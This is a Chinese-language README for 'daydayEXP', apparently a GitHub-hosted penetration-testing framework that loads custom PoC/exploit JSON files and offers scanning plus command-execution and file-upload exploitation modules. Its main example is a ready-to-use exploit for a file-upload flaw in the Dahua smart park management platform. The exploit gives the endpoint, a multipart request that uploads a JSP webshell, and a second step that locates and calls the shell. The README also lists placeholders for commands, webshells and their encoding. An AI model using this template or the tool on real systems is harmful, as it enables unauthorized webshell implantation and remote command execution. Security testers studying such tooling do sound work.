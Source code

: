  <h1 align="center">daydayEXP</h1>
<h1 align="center">
	
## 项目简介：
受nuclei的设计思路影响，乱写的一款支持加载自定义poc文件的、可扩展的的渗透测试框架
  
### 使用：

执行命令或用bat批处理脚本打开（直接打开会有中文乱码等问题，并确保poc文件在当前目录下）

食用建议：建议开启代理配合burp食用

```
java -jar -Dfile.encoding=UTF-8 dadayExp-0.1-jar-with-dependencies.jar
```

#### 漏洞检测模块

选择一级列表内容可对所有该标签下的漏洞都进行检测，为多进程，默认线程为5。选择二级则对单个漏洞扫描。

![image](https://github.com/bcvgh/daydayEXP-readme/assets/56790427/b097a76a-7b79-49cb-ae46-b26c7549b5f5)

dnslog：在config.json中配置好dnslog api，面板中设置好dns地址即可食用。应用该功能可减少命令执行无回显或POC返回包特征值不明确导致的误报、漏报。（暂只支持ceye api）

下方例子中就可以看出，是否开启该模块会导致检测结果会有较大出入
![image](https://github.com/bcvgh/daydayEXP-readme/assets/56790427/1c2c08b6-06b2-4f10-bb37-bd48793f8709)
![image](https://github.com/bcvgh/daydayEXP-readme/assets/56790427/7face77c-f06a-4574-a189-8b112f219fff)



#### 漏洞利用模块
点击漏洞利用按钮，会根据当前漏洞的type类型动态生成场景

`(命令执行类)`

例如命令执行、代码执行、SQL注入xpcmdshell等都归结到这一类

![image](https://github.com/bcvgh/daydayEXP-readme/assets/56790427/b13e743f-ff0c-415a-baf3-0bdf1f3a871e)



`(文件上传类)`

例如文件上传、任意文件写入、任意文件覆盖等都归结到这一类

![image](https://github.com/bcvgh/daydayEXP-readme/assets/56790427/2127d444-46f3-461d-ac58-08807ed800ee)



`(反序列化类)`

开发中~~~~也没有想到较好的设计思路...
可以暂时用反序列化打内存马的poc直接当作文件上传类使用。



### POC编写

json文件中除了基本的name、tag等还有poc和exp两个模块(目前exp模块只支持type为upload或exec，如遇到其他类型漏洞，如：反序列化、未授权、sql注入等建议只设置好poc字段进行一个初步漏洞检测，后续手工进行利用)

对照其他poc的json文件，应该就能看懂编写规则。

```
name  :   漏洞名称
tag   ：  漏洞标签（如:fanwei、youyong等，需要正确填写，否则会影响到POC文件正确加载）
type  ：  漏洞类型（如:upload、exec、sql等，需要正确填写，否则影响EXP模块正常使用）
poc   :   漏洞检测
	pocGet:url路径
	pocPost:post数据
	header:
	Pattern：匹配返回包存在的特征值，通过匹配该字段确定漏洞是否存在
exp   ：
	step（n）：漏洞利用过程中的请求包先后顺序（step1代表请求的第一个数据包，step2、step3以此类推）
		expGet:url路径
		expPost:post数据
		header:
		Pattern：匹配返回包的内容（正则），当type类型为exec时，用来匹配返回包中的命令执行结果，upload类型则是一般用来匹配文件上传后随机生成的文件名。
```

例如:

```
{
  "name":"大华智慧园区管理平台文件上传",          //漏洞名称
  "tag":"dahua",							//漏洞标签（需要正确填写，否则影响POC文件正确加载）	
  "type":"upload",							//漏洞类型（需要正确填写，否则影响EXP模块正常使用）
  "poc": {									//根据模板编写，header头可自行添加修改
    "pocGet": "/publishing/publishing/material/file/video",			
    "pocPost": "id=1",												
    "header": {
      "cookie": "hades-session-id=cbbce521-a761-403d-b699-9849d2cb06b9;",
      "content-type": "multipart/form-data; boundary=----WebKitFormBoundaryCJEleSRxsqS0lAFv",
      "User-Agent": "Mozilla/5.0 (Linux;"
    },
    "Pattern": "(上传文件为空，请重新上传)"		//存在漏洞时返回包存在的关键字（正则表达式必须用（）包含）
  },
  "exp": {									//按step1、step2...先后顺序发包
    "step1": {
      "expGet": "/publishing/publishing/material/file/video",
      "expPost": "------WebKitFormBoundaryCJEleSRxsqS0lAFv\r\nContent-Disposition: form-data; name=\"Filedata\";filename=\"24k.jsp\"\r\n\r\n{webshell}\r\n------WebKitFormBoundaryCJEleSRxsqS0lAFv--",
      "header": {
        "cookie": "hades-session-id=cbbce521-a761-403d-b699-9849d2cb06b9;",
        "content-type": "multipart/form-data; boundary=----WebKitFormBoundaryCJEleSRxsqS0lAFv",
        "User-Agent": "Mozilla/5.0 (Linux;"
      },
      "Pattern": "([0-9]*\\.jsp)"			//第一个包需要正则匹配的话多为文件上传类型，匹配随机生成的jsp脚本名称，如无需匹配返回包则用（）。注意：正则表达式必须用（）包含。
    },
    "step2": {
      "expGet": "/publishingImg/VIDEO/{shellPath}",			//第一个包需要正则匹配的话多为文件上传类型，匹配随机生成的jsp脚本名称
      "header": {
        "cookie": "hades-session-id=cbbce521-a761-403d-b699-9849d2cb06b9;",
        "content-type": "multipart/form-data; boundary=----WebKitFormBoundaryCJEleSRxsqS0lAFv",
        "User-Agent": "Mozilla/5.0 (Linux;"
      },
      "Pattern": "()"
    }
  }
}
```

占位符：

```
{仅poc内可用}
{dnslog}:配置好dnslog平台api即可食用。一般应用于命令执行无回显的情况，减少误报率。

{仅exp内可用}
{command}:命令执行
{shellPath}:匹配到返回包中的脚本名称，应用于上传后wenshell文件名随机生成且在返回包中有回显的场景。
{webshell}:需要上传的文件上传内容

{poc、exp内均可使用}
{random}:随机生成4位数字字母，应用于poc中需要不同特征字符的特殊场景
{url}:即当前目标的url地址，应用在一些网站中可能会校验refer头的情况

编码：
Base64Encode:对输入进行base64编码
Base64decode:对输入进行base64解码码
UrlEncode:url编码（全编码）
UrlDecode：url解码
HtmlEncode:HTML编码
HtmlDecode:HTML解码
如：{webshell:Base64Encode:n}，{command:UrlEncode:3}其中n表示编码次数。（如泛微browser注入漏洞可能会用到{command:UrlEncode:3}，其他一般情况编码一次即可）


```
